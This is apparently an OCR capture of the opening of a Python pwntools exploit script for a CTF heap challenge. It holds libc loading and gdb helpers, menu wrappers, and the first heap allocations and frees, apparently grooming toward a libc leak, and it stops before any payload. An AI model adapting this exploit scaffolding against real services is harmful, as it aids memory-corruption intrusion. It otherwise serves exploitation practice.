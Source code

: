 ```
arena64 = 0x3c4b20
arena32 = 0x1b2780

def pre(libc_version=0):
    glibc_dir = '/glibc/{arch}/{libc}/lib/libc-{libc}.so'.format(arch=elf.arch,libc=str(libc_version))
    ld_dir = '/glibc/{arch}/{libc}/lib/ld-{libc}.so'.format(arch=elf.arch,libc=str(libc_version))
    if libc_version==0:
        io = process(exe)
        return io
    else:
        io = process(exe,env={"LD_PRELOAD":glibc_dir})
        cmd = "patchelf --set-interpreter {} {}".format(ld_dir,os.getcwd()+"/"+exe)
        os.system(cmd)
        return io
 
def dbg(breakpoint=0):
    elf_base = int(os.popen('pmap {}| awk \x27{{print \x241}}\x27'.format(io.pid)).readlines()[1], 16)if elf.pie else 0 
    if breakpoint!=0:
        gdbscript = 'b *{:#x}\n'.format(int(breakpoint) + elf_base) if isinstance(breakpoint, int) else breakpoint
        gdb.attach(io, gdbscript)
        time.sleep(1)
    else:
        gdb.attach(io)

if len(sys.argv)>1:
    io = remote(sys.argv[1],int(sys.argv[2]))
    #libc = ELF("./libc.so.6")
else:
    io = pre()
    libc = elf.libc

def add(tp,content):
    # 1=> 0xa0 ,2 => 0x80
    sela("Your choice:\n","1")
    sela("Your choice:\n",str(tp))
    sela(":\n",content)

def show(ind):
    sela("Your choice:\n","4")
    sela(":\n",str(ind))

def de(ind):
    sela("Your choice:\n","2")
    sela(":\n",str(ind))

def edit(ind,contents):
    sela("Your choice:\n","3")
    sela(":\n",str(ind))
    sela("?\n",contents)

add(1,"a"*7) # 0
add(1,"a"*7) # 1
add(1,"a"*7) # 2

add(4,"\x33") # 3

de(0)
de(2)

add(1,"") # 4
```